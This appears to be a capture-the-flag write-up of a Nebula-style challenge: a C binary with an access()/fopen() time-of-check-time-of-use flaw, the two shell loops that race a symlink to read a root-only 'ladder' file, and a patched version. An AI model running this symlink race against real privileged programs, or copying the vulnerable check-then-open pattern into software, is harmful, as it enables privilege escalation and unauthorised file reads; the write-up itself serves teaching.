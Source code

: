 For this challenge, you need to use the binary to read the ladder file. You will probably also need to run the binary as root.

This challenge is based off of Level 10 from Nebula on exploit-excercises.

Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv)
{
	if (argc != 2)
	{
		printf("You need two arguments for this.\n");
		exit(0);
	}
	setreuid(1000, 0);
	if (access(argv[1], R_OK) == 0 )
	{
		setreuid(0, 0);
		char found[200];
		FILE* target = fopen(argv[1], "r");
		while (fgets(found, sizeof(found), target))
		{
			printf("%s\n", found);
		}
	}
	else
	{
		puts("Oh that's right, you can't grab the ladder. We should experiment on how to improve that.");
	}
}
```

So looking at this binary, we see that it essentially tries to read from a file that is named what you passed it in the first argument. We see that it runs a few checks, such as making sure there are only two arguments (the binary's name and the file name), and that you can actually read the file. Let's just try to use it to read the ladder file.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ ./e6 ladder
Oh that's right, you can't grab the ladder. We should experiment on how to improve that.
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ sudo ./e6 ladder
Oh that's right, you can't grab the ladder. We should experiment on how to improve that.

```

So it didn't work. Upon looking at the code again, we see that the check it uses to verify that you can read the file uses the access() function. Thing is the access file verifies that your real id can open the file, not your effective id. Your real id is the id of the user that you are running as. Your effective id is a temporary id that you assume to perform a job. For instance when you run a command as sudo, your effective id becomes root. Since your effective id is root, you should be able to perform all of the functions that root can. However when your real id, which is the id of the user account you are running as, doesn't change at all. This allows you to temporarily assume a new id (usually root through the use of sudo), then after you are done with it return to your normal user. Let's check what permissions the ladder file has.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ ls -asl ladder
4 -rwx------ 1 root guyinatuxedo 110 Apr 10 15:18 ladder
```

We also see that is sets the real id to 1000, and the effective id to 0 (which is root).

```
	setreuid(1000, 0);
```

So even if we run it as root, it will fail. So with that revelation, we shouldn't be able to use the binary to read the file. However there exists a bug in the code. The access() function uses the real id, however the fopen() call uses the effective id. So if we can bypass the access() call, the fopen() call should read it as long as our effective id is root (in addition to that it switches the ). We can do this using a Time of Check, Time of Use exploit. We will have two loops running. One that switches between creating a symbolic link between a file that our real id can open, and the file that our real id can't open. With the second loop, we will just infinitely run the binary while passing the symbolic link as the file it opens. That way after enough iterations (should only be a couple of seconds) the binary will verify that it can open the symbolic link since it will be pointing to a file that we created, however before it starts reading from the symbolic link we will change it to point to a different file. So essentially in the time that it takes the binary to go from checking the symbolic link with access() to reading from it, we will change where it points. 

First let's create the file that we own and have permissions to.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$  cd /Hackery/escape/endless_pit/e6 
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ echo "missed" > /tmp/handle
```

Now let's start the loop where we just swap between creating the symbolic link between the file we are trying to reach, and the file we just made.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ while true; do ln -fs /tmp/handle handle; ln -fs ladder handle; done
```

Now while that is running, in either a different terminal or ttyl session you can start the second loop

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$  while true; do sudo ./e6 handle; done
```

Then you should see a giant wall of text that contains a combination of the three different strings, because since we aren't specifically timing the creation of new symbolic links based upon when it is checked and read, we should end up with the three possible scenarios.

String 1:
```
Oh that's right, you can't grab the ladder. We should experiment on how to improve that.
```

String 2:
```
missed
```

String 3:
```
LEVEL CLEARED!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
```

and just like that, we pwned the binary. Now to patch it...


```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv)
{
	if (argc != 2)
	{
		printf("You need two arguments for this.\n");
		exit(0);
	}
	setreuid(1000, 1000);
	if (access(argv[1], R_OK) == 0 )
	{
		char found[200];
		FILE* target = fopen(argv[1], "r");
		while (fgets(found, sizeof(found), target))
		{
			printf("%s\n", found);
		}
	}
	else
	{
		puts("Oh that's right, you can't grab the ladder. We should experiment on how to improve that.");
	}
}

```

As you can see, we stopped the privilege escallation after the access() check. This way when the binary reads from the file, it will be using the same permissions that it had when it checked if it could open it. In addition to that, we set the effective id equal to the real id so the binary can't use the effective id to open files that the real id can't. When we run the loops again using the patched binary, we see that the Time of Check, Time of Use explooit no longer works. Just like that we patched the binary!
